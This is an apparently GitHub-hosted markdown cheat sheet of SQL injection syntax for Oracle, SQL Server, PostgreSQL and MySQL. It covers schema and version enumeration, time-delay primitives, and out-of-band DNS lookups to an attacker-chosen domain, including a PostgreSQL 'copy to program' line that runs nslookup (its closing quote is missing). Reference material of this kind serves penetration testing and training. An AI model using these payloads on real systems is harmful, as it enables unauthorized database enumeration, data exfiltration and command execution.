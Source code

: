 # Database Metadata
Database engines provide tables with the database's metadata. This metadata table is different for the different engines:

Engine | Table Name
--------|------------
SQLite | sqlite_master
MySQL | information_schema
PostgreSQL | information_schema
Oracle | dba_tables

## Database Version
Database | Version Info
---------| ------------
Oracle|`SELECT banner FROM v$version` <br> `SELECT version FROM v$instance`
Microsoft| `SELECT @@version`
PostgreSQL| `SELECT version()`
MySQL| `SELECT @@version `

## Database Contents
Listing tables and the columns they contain:

Database | Contents Info
---------| ------------
Oracle| `SELECT * FROM all_tables` <br> `SELECT * FROM all_tab_columns WHERE table_name = 'Table Name'`
Microsoft| `SELECT * FROM information_schema.tables` <br> `SELECT * FROM information_schema.columns WHERE table_name = 'Table Name'`
PostgreSQL| `SELECT * FROM information_schema.tables` <br> `SELECT * FROM information_schema.columns WHERE table_name = 'Table Name'`
MySQL| ` SELECT * FROM information_schema.tables` <br> `SELECT * FROM information_schema.columns WHERE table_name = 'Table Name'`

# String Concatenation
Database | Concatenation
---------| ------------
Oracle| 'a'\|\|'b'
Microsoft| 'a'+'b'
PostgreSQL| 'a'\|\|'b'
MySQL| 'a' 'b' (space) or `CONCAT('a','b')`

# Unconditional Time Delays
Replace `delay` with the desired delay in seconds.
Database | Delay Syntax
---------| ------------
Oracle| `dbms_pipe.receive_message(('a'),delay)`
Microsoft| `WAITFOR DELAY 'hours:minutes:seconds'`
PostgreSQL| `SELECT pg_sleep(delay)`
MySQL| `SELECT sleep(delay)`

# DNS Lookups
Database | Lookup Syntax
---------| ------------
Oracle| `SELECT UTL_INADDR.get_host_address('domain')` - requires elevated privileges
Microsoft| `exec master..xp_dirtree '//domain/a'`
PostgreSQL| `copy (SELECT '') to program 'nslookup domain`
MySQL| These work only on Windows <br> `LOAD_FILE('\\\\domain\\a')` <br> `SELECT ... INTO OUTFILE '\\\\domain\a'`